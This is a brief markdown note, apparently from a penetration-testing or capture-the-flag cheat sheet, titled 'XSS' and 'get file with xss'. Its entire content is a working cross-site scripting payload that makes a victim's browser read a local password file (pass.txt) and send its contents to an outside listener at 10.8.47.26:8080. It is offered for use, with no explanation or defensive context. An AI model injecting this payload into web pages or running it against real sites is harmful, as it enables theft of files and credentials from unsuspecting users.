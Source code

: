 # XSS

---------------------------------------------------------------

get file with xss

<script>
const xhr = new XMLHttpRequest();
xhr.open("GET", "http://127.0.0.1/dir/pass.txt");
xhr.send();
xhr.onload = () => {
	const xhrr = new XMLHttpRequest();
    xhrr.open("GET", "http://10.8.47.26:8080/?c="+xhr.response);
    xhrr.send();
	
};
</script>

---------------------------------------------------------------